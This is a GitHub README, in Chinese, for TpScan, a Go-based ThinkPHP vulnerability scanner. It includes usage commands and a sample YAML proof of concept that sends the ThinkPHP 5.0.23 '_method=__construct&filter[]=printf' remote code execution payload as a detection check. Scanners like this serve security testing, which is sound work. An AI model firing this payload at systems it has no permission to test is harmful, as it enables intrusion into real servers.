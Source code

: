 ![TpScan](https://socialify.git.ci/captain686/TpScan/image?font=Raleway&forks=1&issues=1&language=1&name=1&owner=1&pattern=Circuit%20Board&stargazers=1&theme=Light)

## ☃️What

使用`golang`编写的ThinkPHP扫描器，`POC`采用`ymal`文件加载

## 🤪How

- 单个`URL`测试

```bash
./TpScan.exe -u http://node4.buuoj.cn:26433/
```

- 批量`URL`测试

```bash
./TpScan.exe -f test.txt
```

## 🤑About

- `Ymal`文件格式

  ```yaml
  name: 5.0.23-Rce
  rules:
    r1:
      request:
        method: GET
        headers:
          Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
        path: _method=__construct&filter[]=printf&method=GET&server[REQUEST_METHOD]=randomStr
      expression:
  #      result: and
  #      response_status: 404
        inResponse: |
          randomStr
  
    r2:
      request:
  #支持POST和GET    
        method: POST
        headers:
          Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
        path: _method=__construct&filter[]=printf&method=GET&server[REQUEST_METHOD]=randomStr
        FollowRedirects: true
  #允许302跳转，默认为true
      expression:
  # r2验证结果为 response_status == 404 && inResponse(randomStr)
        result: and
  #      result: or
        response_status: 404
        inResponse: |
          randomStr
  #randomStr为占位符，会被自动替换为10位随机字符
  
  expression:
    r1 || r2
  #  r1 && r2
  #支持逻辑运算
  
  
  # 信息部分
  detail:
    author: Captain686
    links:
      - https://github.com/captain686
  ```
  
  
  
  在`Xray`的`poc`格式基础上进行部分修改
  
  `Poc`文件存放在`User_Exploit`目录下

## 😎ToDo

- [ ] 后续更新`Poc`文件
